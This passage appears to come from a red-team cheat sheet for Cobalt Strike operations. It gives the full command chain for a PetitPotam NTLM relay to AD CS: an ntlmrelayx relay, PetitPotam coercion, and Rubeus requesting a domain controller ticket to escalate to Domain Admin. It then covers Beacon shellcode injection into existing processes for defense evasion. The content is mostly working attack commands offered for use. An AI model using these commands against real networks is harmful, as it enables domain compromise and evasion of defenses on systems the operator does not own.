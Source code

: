 # Start NTLM relay server on Kali 
python3 ntlmrelayx.py -t http://ADCS-server.domain.com/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

# Force coercion via PetitPotam in Cobalt Strike Beacon - Observe "Attack Success!!!" in output if it worked
run PetitPotam.exe <Kali-Listener-IP> <DC-IP>

# NTLM relay output will have base64 ticket of target DC machine account
# Use Rubeus to request TGT of DC machine account to esclate to Domain Admin
execute-assembly C:\Rubeus.exe asktgt /dc:<DC-IP> /domain:domain.com /user:<DC-Machine-account>$ /ptt /certificate:<base64-ticket-from-output>

# Verify asktgt command worked by doing an 'ls' command on the DC
ls \\<DC-IP>\c$
```
References:
- [https://pentestlab.blog/2021/09/14/petitpotam-ntlm-relay-to-ad-cs/](https://pentestlab.blog/2021/09/14/petitpotam-ntlm-relay-to-ad-cs/)
- [https://hakin9.org/domain-takeover-with-petitpotam-exploit/](https://hakin9.org/domain-takeover-with-petitpotam-exploit/)
------------------------------------------------------------------------------------------
## Defense Evasion

### Shellcode injection techniques
Several methods here within Cobalt Strike or using BOFs<br />
The default process injection in Cobalt Strike 4.11 has been updated to use "ObfSetThreadContext" ([blog post](https://www.cobaltstrike.com/blog/cobalt-strike-411-shh-beacon-is-sleeping))
```
# Spawn a beacon into an existing process using new novel injection technique (v4.11, 2025)
inject <PID> <x86|x64> HTTPSLISTENER

# Inject raw shellcode into an existing process
# Create shellcode: Cobbalt Strike --> Attacks --> Packages --> Windows Executable (S) --> Output = Raw --> Creates "beacon.bin" file
shinect <PID> <x86|x64> C:\beacon.bin
